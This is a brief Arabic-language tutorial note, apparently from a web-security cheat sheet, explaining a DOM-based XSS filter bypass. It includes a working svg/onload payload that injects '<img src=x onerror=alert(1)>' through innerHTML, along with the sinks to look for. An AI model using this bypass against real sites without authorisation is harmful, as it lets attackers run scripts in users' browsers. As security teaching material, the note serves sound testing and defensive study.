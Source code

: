 #### **لماذا يعمل؟**
- تُدرج `<img>` مع `onerror=alert(1)` عبر DOM.
- يمكن استخدام عناصر مثل `all[0]` بدلاً من `head` أو `body`.
- يتجاوز مرشحات `location`.

#### 🔎 **الفكرة:**

- بعض الفلاتر تمنع `location=...` أو `href=...` لكن لا تمنع DOM-based حقن باستخدام `innerHTML` أو `outerHTML`.
    

#### 🔧 **مثال عملي:**

```html
<svg id='<img src=x onerror=alert(1)>' onload='document.body.innerHTML = this.id'></svg>
```

#### 📌 **تفصيل ما يحدث:**

- `id` يحتوي على سكربت جاهز (`<img src=x onerror=alert(1)>`)
    
- عند onload: يتم وضع `this.id` كـ `innerHTML` للـ `body`.
    
- أي يتم إدراج العنصر الضار داخل الصفحة → يتم التنفيذ فورًا.
    

#### 🎯 **نقطة الكشف:**

- ابحث عن استخدام:
    
    - `element.innerHTML =`
        
    - `document.body.outerHTML =`
        
    - `document.all[0].innerHTML =`
        
- جرّب حقن `<img src=x onerror=alert(1)>` داخل أي قيمة `id` أو `name` أو غيرها.
    

#### **الخلاصة:**
بديل `innerHTML` و`outerHTML` فعال لأنه يُنفذ XSS عبر DOM مباشرة.

-----
